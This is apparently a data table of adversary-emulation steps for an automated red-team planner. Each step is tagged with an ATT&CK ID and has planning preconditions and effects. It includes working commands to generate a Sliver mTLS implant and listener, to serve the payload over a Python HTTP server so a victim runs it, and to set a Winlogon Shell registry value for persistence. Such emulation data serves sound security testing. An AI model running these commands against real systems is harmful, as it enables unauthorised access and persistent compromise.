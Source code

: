 | f9c1197c-c5ef-4368-a10c-3a53003dbfbf | Remote Directory Listing | \['T1083'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['File and Directory Discovery'\] | The `ls <remote path>` command lists files and directories in a specified remote path or the current directory if no path is provided. By default, it sorts listings by name in ascending order, but can also sort by size or modified time, with options to reverse the order. The command includes flags for sorting, reversing order, and setting a timeout. | {'executor': 'Sliver Executor', 'command': 'ls(#{SessionID})'} | {'SessionID': {'default': None, 'description': 'The session ID of the active Sliver connection.', 'type': None}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(file_info_known ?t - host)'\] |
| cf6f614c-83c9-4018-911b-c432bb95acfd | User Context Verification | \['T1087.001'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['Account Discovery: Local Account\n'\] | The `whoami` command retrieves the current user identity of the system. It executes the command on the remote system and returns the username of the account that is currently logged in. This command includes flag for setting a timeout. | {'executor': 'Sliver Executor', 'command': 'whoami(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(user_info_known ?t - host)'\] |
| bc50eb97-4a6d-4a9d-b0b2-e9cf623a9106 | Build the executable file (service) of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a service executable payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format service --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(service_payload ?p - payload)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 4a31f8db-89db-4f16-baab-47bb3f9d5b8a | Simulate the victim download and execute malicious payload file | \['T1204.002'\] | Manual | \['windows', 'linux'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} (If on a Linux machine, you also need to chmod the file)\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', {'operator': 'or', 'operands': \['(exe_file ?file - file)', '(elf_file ?file - file)'\]}\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| bf9f9d65-ee4d-4c3e-a843-777d04f19c38 | Winlogon Shell Key Persistence - PowerShell | \['T1547.004'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Winlogon Helper DLL'\] | PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.<br><br>Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.<br> | {'executor': 'Powershell Executor', 'command': 'Set-ItemProperty "HKCU:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\" "Shell" "explorer.exe, #{binary_to_execute}" -Force\n'} | {'binary_to_execute': {'description': 'Path of binary to execute', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?binary_to_execute - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |